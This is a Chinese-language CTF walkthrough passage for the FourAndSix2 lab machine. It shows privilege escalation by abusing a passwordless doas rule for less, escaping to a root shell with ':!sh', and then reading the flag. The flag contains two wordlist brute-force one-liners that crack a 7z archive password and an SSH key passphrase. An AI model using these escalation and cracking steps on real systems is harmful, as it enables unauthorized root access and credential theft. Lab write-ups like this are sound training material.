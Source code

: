 - 查看`doas`配置文件时发现以下语句，尝试使用`doas`来进行提权，

- ```shell
  fourandsix2$ cat /etc/doas.conf                                                                    
  permit nopass keepenv user as root cmd /usr/bin/less args /var/log/authlog
  permit nopass keepenv root as root
  ```

- 使用命令：`doas /usr/bin/less /var/log/authlog`

- ![image-20230813143304031](https://raw.githubusercontent.com/r0o983/images/main/202308131617301.png)

- 操作步骤：

  1. 使用`v`键进入编辑模式
  2. 接着输入`:!sh`启动一个新的bash环境，即可完成提权

- 提权成功。 enjoy！

- ```shell
  fourandsix2# whoami
  root
  fourandsix2# ifconfig
  lo0: flags=8049<UP,LOOPBACK,RUNNING,MULTICAST> mtu 32768
          index 3 priority 0 llprio 3
          groups: lo
          inet6 ::1 prefixlen 128
          inet6 fe80::1%lo0 prefixlen 64 scopeid 0x3
          inet 127.0.0.1 netmask 0xff000000
  em0: flags=8843<UP,BROADCAST,RUNNING,SIMPLEX,MULTICAST> mtu 1500
          lladdr 00:0c:29:48:57:cf
          index 1 priority 0 llprio 3
          media: Ethernet autoselect (1000baseT full-duplex,master)
          status: active
          inet 192.168.2.4 netmask 0xffffff00 broadcast 192.168.2.255
  enc0: flags=0<>
          index 2 priority 0 llprio 3
          groups: enc
          status: active
  pflog0: flags=141<UP,RUNNING,PROMISC> mtu 33136
          index 4 priority 0 llprio 3
          groups: pflog
  fourandsix2# id 
  uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
  fourandsix2# cd /root/                                                                                                                                                                                                                     
  fourandsix2# ls
  .Xdefaults .cshrc     .cvsrc     .forward   .login     .profile   .ssh       flag.txt
  fourandsix2# cat flag.txt                                                                                                                                                                                                                  
  Nice you hacked all the passwords!
  
  Not all tools worked well. But with some command magic...:
  cat /usr/share/wordlists/rockyou.txt|while read line; do 7z e backup.7z -p"$line" -oout; if grep -iRl SSH; then echo $line; break;fi;done
  
  cat /usr/share/wordlists/rockyou.txt|while read line; do if ssh-keygen -p -P "$line" -N password -f id_rsa; then echo $line; break;fi;done
  
  
  ```